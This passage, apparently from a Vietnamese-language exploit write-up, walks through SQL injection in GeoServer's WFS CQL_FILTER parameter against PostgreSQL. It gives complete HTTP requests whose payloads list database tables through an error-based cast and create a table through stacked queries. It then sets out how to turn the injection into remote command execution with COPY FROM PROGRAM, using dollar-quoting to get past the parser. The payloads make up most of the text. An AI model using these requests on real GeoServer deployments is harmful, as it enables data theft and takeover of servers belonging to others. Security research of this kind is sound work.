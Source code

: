 Ta cần list table name.
Request để list table name:

```
GET /geoserver/ows?service=WFS&version=1.0.0&request=GetFeature&typeName=nyc:nyc_buildings&CQL_FILTER=strStartsWith(bin%2C%27x%27%27)+%3D+true+and+1%3D(SELECT+CAST+((SELECT+STRING_AGG(table_name,$$,$$)+FROM+information_schema.tables+WHERE+table_schema+NOT+IN+($$pg_catalog$$,$$information_schema$$)+AND+table_schema+NOT+LIKE+$$pg_toast%25$$)+AS+INTEGER))+--+%27)+%3D+true HTTP/1.1
Host: localhost:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Connection: close
```

Câu query được thực thi có dạng:
```
SELECT count(*) FROM "public"."nyc_buildings" WHERE ("bin"::text LIKE 'x') = true and 1=(SELECT CAST ((SELECT STRING_AGG(table_name,$$,$$) FROM information_schema.tables WHERE table_schema NOT IN ($$pg_catalog$$,$$information_schema$$) AND table_schema NOT LIKE $$pg_toast%$$) AS INTEGER)) -- %') = true
```

List table name lấy được sẽ dùng cho bước tiếp theo.

### 6.2. Trường hợp 2: session_user có quyền tạo table:

Request để tạo table (ví dụ table mới có tên là shell1):

```
GET /geoserver/ows?service=WFS&version=1.0.0&request=GetFeature&typeName=nyc:nyc_buildings&CQL_FILTER=strStartsWith(bin%2C%27x%27%27)+%3D+true;+CREATE+TABLE+shell1+AS+SELECT+1;+--+%27)+%3D+true HTTP/1.1
Host: localhost:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Connection: close
``` 

Câu query được thực thi có dạng: 
```
SELECT count(*) FROM "public"."nyc_buildings" WHERE ("bin"::text LIKE 'x') = true; CREATE TABLE shell1 AS SELECT 1; -- %') = true
```
Table mới này sẽ được dùng cho bước tiếp theo.

### 6.3. RCE

Có 2 lưu ý khi gửi payload để RCE:

- Để câu query ở vế 2 được thực thi thì câu query ở vế đầu tiên phải được thực thi thành công (không có lỗi). Vậy câu SQL cần phải bỏ phần `and 1=(SELECT CAST ((SELECT version()) AS INTEGER))` trước khi nối thêm vế 2 (là phần `COPY <table_name> FROM PROGRAM '<cmd_here>`).
- Nếu trong vế thứ 2 trong payload sử dụng  single-quoted string (dấu `'this is a string'`) để truyền cmd thì sẽ bị lỗi "Could not parse CQL filter list" do server không parse request để lấy CQL Filter List được. Do đó, ta cần thay bằng dollar-quoted string (`$$this is a string$$`). 
